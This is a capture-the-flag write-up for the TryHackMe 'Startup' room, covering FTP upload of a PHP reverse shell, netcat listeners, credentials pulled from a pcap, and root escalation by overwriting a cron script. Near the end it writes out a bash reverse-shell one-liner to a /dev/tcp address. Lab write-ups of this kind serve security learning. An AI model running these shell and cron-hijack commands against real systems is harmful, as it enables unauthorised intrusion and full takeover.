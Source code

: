 #startup

![alt_text](startup/startup1.png "image_tooltip")

This is a writeup for the TryHackMe room [Startup created by elbee](https://tryhackme.com/room/startup)

Please note that I completed this room running Parrot OS so there might be syntax differences.
The IP 10.10.173.246 seen in the screenshots was the victim IP given to me by TryHackMe. Just subsitute for the one that appears to you after clicking on "start machine"

Hope you enjoy!

![alt_text](startup/startup2.png "image_tooltip")


Let's start our enumeration by running a nmap scan

`nmap -sC -A -T 4 <IP>`

![alt_text](startup/startup4.png "image_tooltip")

![alt_text](startup/startup5.png "image_tooltip")

We see here that 3 ports are open ... 21 (FTP), 22 (SSH) and 80 (HTTP)

Nothing much going on the webpage

![alt_text](startup/startup6.png "image_tooltip")

And it is always a good practice to take a peek at the page source ... lots of great information can be found there!!

![alt_text](startup/startup7.png "image_tooltip")

But not much going on here in this case ... :(

Going back to our nmap scan, we see that FTP allows us to login as anonymous! 
Just type in `FTP <IP` and then `anonymous` when prompted to enter the username.
When the password prompt comes, just hit Enter

![alt_text](startup/startup77.png "image_tooltip")

(I forgot to take a screenshot of this when I first completed the room, that's why the IP is different! Sorry about that!!)

some interesting files that we can download to our machine by simply typing `get <file name>`

here is the output of one of them!!

![alt_text](startup/startup9.png "image_tooltip") 

That's a great clue that indicates that there is an upload/download capability in the webpage that we can exploit!

Next, we try to find hidden directories by using gobuster

`gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt`


![alt_text](startup/startup10.png "image_tooltip")

We found /files to let's go take a peek at it in our browser

![alt_text](startup/startup11.png "image_tooltip")

GREAT finding!! FTP is a part of their web server which means not only can we download files as the note we found above implies, but we can also upload a malicious file ... a reverse php shell in this case!!

Many php reverse shells you can use out there... I included the one I used here in this repository!!

![alt_text](startup/startup12.png "image_tooltip") 

Let's check in the browser if our shell was uploaded correctly....

![alt_text](startup/startup13.png "image_tooltip")

AWESOME!!! :)

Next we need to set up a netcat listener in our terminal using the same port we included in our reverse shell

`nc -lvnp 7777` (7777 is the port I used) 

To activate the shell, just click on it in the browser and you should get a response right away!!

![alt_text](startup/startup14.png "image_tooltip")

Before starting to take a peek around, stabilize the shell by entering

`python3 -c 'import pty;pty.spawn("bin/bash")'`

![alt_text](startup/startup15.png "image_tooltip")

![alt_text](startup/startup16.png "image_tooltip")

And here we have the answer for the first question!! :)

Now we need to start escalating our privileges ...
I tried many tools such as LinPeas ... LinEnum ...even autoexploits! without much luck unfortunately, so
manual enumeration it is!! After doing plenty of digging I came across an interesting looking file at the /incidents directory!
It's a pcap file, which means we need Wireshark to analyze it!

Setting a python server in our shell, we can download the file to our system by using wget!

![alt_text](startup/startup18.png "image_tooltip")

![alt_text](startup/startup17.png "image_tooltip")

By analizing the file strings, we come accross some credentials!! `lennie:c4ntg3t3n0ughsp1c3`

Now we can just simply ssh into our victim using those credentials! You also can just type `su lennie` in the www-data shell and enter the password when prompted!!

![alt_text](startup/startup19.png "image_tooltip")

![alt_text](startup/startup20.png "image_tooltip")

And here is our first flag!!!

Now we just need to once more escalate our privileges to find our root.txt

After lots of digging, I found an interesting file here ...

![alt_text](startup/startup21.png "image_tooltip")

That does look like a cronjob and the best tool to test this theory is pspy! 
We need to upload the tool into our victim and a good spot to do that is in the /tmp 

Once again, start a python server in your machine and upload the tool to lennie's /tmp through wget!!

![alt_text](startup/startup22.png "image_tooltip")

![alt_text](startup/startup23.png "image_tooltip")

And we find our cronjob..

Going throught the contents of planner.sh we see a /etc/print.sh and also check that lennie is the owner and able to edit it, so that's exactly what we will do!!

`echo 'bash -c "bash -i >& /dev/tcp/10.4.31.108/7777 0>&1"' > /etc/print.sh` 

(remember to substitute the IP for your TryHackMe VPN IP or the IP of the attackbox if you are using their in browser machine)

![alt_text](startup/startup80.png "image_tooltip")

Set then a netcat listener and wait for the cronjob to run!!

![alt_text](startup/startup24.png "image_tooltip")

SWEET!! Now to find our root.txt

![alt_text](startup/startup25.png "image_tooltip")

And we are done!!!!!!!!!!!!!!!!

I hope you have lots of fun completing this room and maybe learn a few things! :)

Thank you so much for using/reading my writeup!!

![alt_text](startup/startup26.png "image_tooltip")

                                         `CryptoTzipi aka CyberLola`
                                         
                                         













